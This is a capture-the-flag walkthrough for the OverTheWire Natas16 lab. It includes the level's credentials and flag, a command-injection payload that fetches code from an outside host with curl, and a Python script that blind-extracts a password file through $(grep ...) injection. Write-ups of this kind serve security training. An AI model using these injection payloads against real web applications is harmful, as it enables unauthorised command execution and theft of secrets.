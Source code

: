 # Natas16

*	user: `natas16`
*	pass: `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`
*	url: `http://natas16.natas.labs.overthewire.org`
*	flag: `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`

## Procedure

1.	Our objective is to get the content of file `/etc/natas_webpass/natas17`.

1.	Similarly to Natas9 and Natas10, there is a BASH script to be
	injected. Even if a security check is performed to identify
	some "special" characters, `$`, `(` and `)` are allowed...

2.	Firstly, we can try to load the code to be injected from an external
	resource by passing as value of `needle` parameter the following
	string

		$(curl -s http://www.example.com/code_to_inject.txt)

	where `code_to_inject.txt` could contain something like

		Africans" dictionary.txt ; cat /etc/natas_webpass/natas17 ; grep -i "Africans

	Unfortunately, this way seems to be not followable (probably due to
	security settings on target machine).

3.	Let's try a brute-force approach (like Natas15). Our idea is to
	create a switch that informs us whether a token is present in the
	flag.

4.	If we try to check existence of `Africans` we receive the following
	result

		$ curl -u natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh -d "needle=Africans" http://natas16.natas.labs.overthewire.org
		[cut]
		<pre>
		Africans
		</pre>
		[cut]

	while with `XAfricans` we receive

		$ curl -u natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh -d "needle=XAfricans" http://natas16.natas.labs.overthewire.org
		[cut]
		<pre>
		</pre>
		[cut]

	The base idea of our switch is to check the string `XAfricans` where
	`X` could be `NULL`. In this way, we'll have two states.

5.	`X` will be the result of

		grep -E ^<token>.* /etc/natas_webpass/natas17

	Indeed, if `token` is at the beginning of password, value of `token`
	will be shown. Otherwise, nothing is shown.

6.	Our brute-force consists in assigning to `needle` the iteration (over
	the charset `A-Za-z0-9`) of the following command

		$(grep -E ^<token>.* /etc/natas_webpass/natas17)Africans

	Of course, Python will help us

		import requests

		target = 'http://natas16.natas.labs.overthewire.org'
		charset_0 = (
			'0123456789' +
			'abcdefghijklmnopqrstuvwxyz' +
			'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
		)

		p = ''
		i = 0
		while len(p) != 32:
			while i < len(charset_0):
				c = charset_0[i]
				needle = ('$(grep -E ^%s%c.* /etc/natas_webpass/natas17)Africans' % (p, c))
				r = requests.get(target,
					auth=('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'),
					params={"needle": needle}
				)
				if "Africans" not in r.text:
					p += c
					print ('P: ' + p.ljust(32, '*'))
					i = 0
				else:
					i += 1

7.	This is the final result

		$ python natas16.py
		P: 8*******************************
		...
		P: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9**
		P: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c*
		P: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
